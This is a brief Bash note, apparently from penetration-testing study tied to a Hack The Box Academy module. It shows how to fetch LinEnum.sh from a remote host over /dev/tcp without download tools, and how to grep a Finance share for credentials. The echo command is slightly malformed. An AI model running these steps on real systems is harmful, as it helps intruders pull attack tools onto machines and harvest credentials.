 Bash
#######

Date: 2024-11-28 22:20

Status:

Tags: 

Description
**************
A shell common to the Linux operating system.

Example 1: You can use console to download a file

.. code-block:: console

   exec 3<>/dev/tcp/10.10.10.32/80


Get the file you need

.. code-block:: console

   echo -e "GET /LinEnum.sh HTTP/1.1\n\n\">&3

Print the file

.. code-block:: console

   cat <&3

Example 2: Finding files with a certain string

.. code-block:: console

   grep -rn /mnt/Finance/ -ie cred

References
**************
https://academy.hackthebox.com/module/116/section/1140
